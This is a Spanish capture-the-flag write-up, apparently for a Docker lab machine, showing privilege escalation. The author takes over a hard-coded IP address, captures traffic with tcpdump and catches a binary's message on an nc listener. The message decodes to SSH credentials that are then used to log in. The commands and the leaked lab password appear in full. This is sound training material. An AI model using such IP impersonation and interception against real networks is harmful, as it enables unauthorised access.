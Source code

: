 ## Escalada de Privilegios
### Enumeracion del Sistema
En la siguiente ruta: **( /var/www )** tenemos el siguiente archivo: 
```bash
-rwxr-xr-x  1 www-data www-data 16464 Nov 12  2024 sendinv2
```

Si revisamos sus lineas legible vemos que se esta intentando conectar a la siguiente direccion IP:
```bash
Error al crear el socket
172.17.0.188
Error al enviar datos
```

Ahora modificaremos nuestra direccion IP para hacernos pasar por esa direccion **IP**
```bash
sudo ip address del 172.17.0.200/16 dev docker0
sudo ip address add 172.17.0.188/16 dev docker0
```

Ahora nos ponemos en eschucha para ver los paquetes que se trasmiten en esa red:
```bash
sudo tcpdump -i docker0
```

ahora ejecutamos el binario desde la maquina victima:
```bash
./sendinv2
```

Vemos que esta intentando conectarse por la siguiente direccion IP al siguiente puerto:
```bash
14:53:39.011841 IP 172.17.0.188 > 172.17.0.2: ICMP 172.17.0.188 udp port 7777 unreachable, length 372
```

Lo que aremos es ponernos en escucha por ese puerto
```bash
nc -lvnp 7777
```

Volvemo a ejecutar el comando:
```bash
./sendinv2
```

Tenemos lo siguiente:
```bash
echo "aG9sYSEgc29tb3MgZWwgZ3J1cG8gQmxhY2tDYXQsIHBlbnNhbW9zIGVuIGVuY3JpcHRhciBlc3RlIHNlcnZlciBwZXJvIG5vIHRpZW5lIG5hZGEgZGUgaW50ZXJlcywgdGUgYWhvcnJhcmUgdGllbXBvOiBjcmlzdGFsOmRyb3BjaG9zdG9wNDUzU0pGIDogZGlzZnJ1dGEK" | base64 -d
hola! somos el grupo BlackCat, pensamos en encriptar este server pero no tiene nada de interes, te ahorrare tiempo: cristal:dropchostop453SJF : disfruta
```

Nos conectamos por ssh:
```bash
ssh-keygen -R 172.17.0.2 && ssh cristal@172.17.0.2
```
